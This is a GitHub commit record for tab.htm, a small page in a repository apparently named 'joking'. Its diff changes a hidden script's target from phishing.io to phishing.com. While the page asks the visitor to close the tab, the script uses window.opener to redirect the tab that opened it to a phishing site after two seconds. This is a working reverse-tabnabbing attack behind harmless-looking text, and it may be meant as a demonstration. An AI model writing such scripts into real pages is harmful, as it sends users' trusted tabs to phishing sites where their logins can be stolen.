

Before and after one commit to kaung1337/joking, a plain HTML site: page tab.htm in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update tab.htm

```diff
--- a/tab.htm
+++ b/tab.htm
@@ -1,15 +1,29 @@
 <!doctype html>
+
 <html>
+
     <head>
+
     </head>
+
     <body>
-        <h1>Something interesting</h1>
-        <p>This page contains some very interesting info.</p>
-        <p>When you are done reading it, please close the tab.</p>
+
+        <h1>Nothing here </h1>
+
+
+
+        <p> please close the tab :D.</p>
+
         <script>
+
             setTimeout(function() {
-                window.opener.location.replace('https://phishing.io');
+
+                window.opener.location.replace('https://phishing.com');
+
             }, 2000);
+
         </script>
+
     </body>
+
 </html>
```
